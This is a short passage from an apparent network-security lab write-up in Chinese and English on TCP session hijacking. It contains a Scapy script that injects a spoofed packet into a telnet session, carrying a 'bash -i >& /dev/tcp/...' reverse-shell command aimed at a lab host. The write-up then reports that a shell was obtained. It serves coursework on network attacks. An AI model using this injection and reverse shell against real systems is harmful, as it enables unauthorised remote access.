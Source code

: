 

![image-20201108143735481](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108143735481.png)

![image-20201108143839689](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108143839689.png)



### Task 5: Creating Reverse Shell using TCP Session Hijacking

把指令改一下就行

```python
from scapy.all import *

ip = IP(src="192.168.2.191", dst="192.168.2.189")
tcp = TCP(sport=43926, dport=23, flags=0x010, seq=2427222396, ack=143193915)
data = "bash -i >& /dev/tcp/192.168.2.178/8848 0>&1\x0d\x0a"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```



![image-20201108144656850](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108144656850.png)

得到了shell

![image-20201108144707642](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108144707642.png)
